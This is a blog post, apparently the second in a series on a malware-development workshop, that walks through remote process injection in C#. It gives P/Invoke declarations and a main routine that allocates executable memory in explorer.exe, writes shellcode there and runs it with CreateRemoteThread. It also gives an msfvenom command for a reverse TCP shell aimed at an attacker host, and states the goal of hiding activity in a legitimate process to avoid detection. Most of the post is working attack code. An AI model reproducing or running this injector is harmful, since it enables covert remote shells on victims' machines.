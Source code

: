 ```yaml
---
title: Dummies' Malware II
date: 2023-1-31 12:00:00 -800
categories: [malware]
tags: [malware, development, c#]
---
```


# Trust in the Process

## Introduction

Let's continue our adventure in malware development and move on to the next exercise in [Malware Development for Dummies](https://github.com/chvancooten/maldev-for-dummies). You can read the previous entry in this blog series [here](https://threeeightsec.github.io/posts/Maldev1/). That post goes through a lot of background information that we will be utilizing from here on out.

## Objective

This time, we're going to learn how to inject shellcode into a remote process. This allows us to disguise our activities under a guise of a legitimate process. For this exercise, I'll be focusing on the `explorer.exe` process.

## A New Set of Functions

In our last exercise, we utilized `VirtualAlloc` to allocate memory, `Marshal.copy` to copy our shellcode into memory, and `CreateThread` to execute the code in memory.

For this solution we will be using a new set of functions. First we'll use `OpenProcess` to get a handle on our target process. Then, we'll use `VirtualAllocEx` which allocates executable memory in our target remote process. Then, we'll use `WriteProcesMemory` to copy our shellcode into the memory and then use `CreateRemoteThread` to execute the shellcode.

As you can see, the process is pretty similar to our last solution.

Before we begin, let's set our namespaces so that we can import the necessary dlls:

```c#
using System.Diagnostics;
using System.Runtime.InteropServices;
```

Now, let's find these functions from [PInvoke.net](https://pinvoke.net/index.aspx). Next, we'll create a new C# solution and improt these functions into a class.

```c#
class Methods
{
    //OpenProcess API to get handle on the target process
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(
        uint processAccess,
        bool bInheritHandle,
        int processId);

     //VirtualAllocEx to allocate memory in the remote process
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    public static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect);

     //WriteProcessMemory to copy shellcode into memory
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberofBytesWritten);
     
     //CreateRemoteThread to execute the shellcode in memory
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParamerter,
        uint dwCreationFlags,
        IntPtr lpThreadId);
    
    public enum StateEnum
        {
            MEM_COMMIT = 0x1000,
            MEM_RESERVE = 0x2000,
            MEM_FREE = 0x10000,
        }

    public enum Protection
        {
            PAGE_READONLY = 0x02,
            PAGE_READWRITE = 0x04,
            PAGE_EXECUTE = 0x10,
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
        }
}
```
* Lines 3 to 37 defines the functions listed above.
* Lines 39 to 52 defines enums that we might use later.

Note that these functions are also from kernel32.dll.

## The Main Function

Let's start constructing our main function.

First we're going to use the same shellcode we built last time with `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attackerIP LPORT=attackerPort -f csharp
```

We'll paste the `msfvenom` output into our code. Here is an example of what it would look like:

```c#
byte[] shellcode = new byte[380] {0x00,0x00,...};
```

Next, let's get the process ID for `explorer.exe`
```c#
Process[] targetProcess = Process.GetProcessesByName("explorer");
Process explorerProcess = targetProcess[0];
```
This will get all the PID's of any process with the term "explorer." We then take the first ID in that array and assign it to the `explorerProcess` variable.

We will then call `OpenProcess` to get a handle on our target process and also create a `bytesWritten` variable for future use.
```c#
IntPtr process_handle = Methods.OpenProcess(0x1F0FFF, false, explorerProcess.Id);
IntPtr bytesWritten;
```

Next, we will use `VirtualAllocEx` to allocate memory in our target process using the process handle.

```c#
IntPtr memory_allocation = Methods.VirtualAllocEx(process_handle, IntPtr.Zero, (uint)(shellcode.Length), 0x00001000, 0x40);
```

We will use `WriteProcessMemory` to write our shellcode into memory.
```c#
Methods.WriteProcessMemory(process_handle, memory_allocation, shellcode, (int)shellcode.Length, out bytesWritten);
```

Finally, we execute the code with `CreateRemoteThread`.
```c#
Methods.CreateRemoteThread(process_handle, IntPtr.Zero, 0, memory_allocation, IntPtr.Zero, 0, IntPtr.Zero);
```

Let's test this code out!

First, we'll create a listener on our Kali machine.

![Listener](/assets/images/listener.png)

Let's run our code in Visual Studio:
![Injector](/assets/images/runInjector.png)

And we catch another reverse shell!

![Shell](/assets/images/injectorShell.png)

You can find the [full solution code here](https://github.com/ThreeEightSec/MalDummies-Solutions/blob/main/Exercise2.cs).

You can find the my other solutions for this workshop on my [Github repo](https://github.com/ThreeEightSec/MalDummies-Solutions).

## Conclusion

In this blog, we've utilized a different set of functions to inject shellcode. This time, we injected shellcode in a remote process in an effort to avoid detection. However, this solution will also get caught by Defender since it is a well known technique. We will explore defense evasion in our next blog post in this series so stay tuned!

## References

* [Malware Development for Dummies](https://github.com/chvancooten/maldev-for-dummies)
* [PInvoke.net](https://pinvoke.net/index.aspx)
* [A simple Windows code Injection example written in C#](https://andreafortuna.org/2019/03/06/a-simple-windows-code-injection-example-written-in-c/)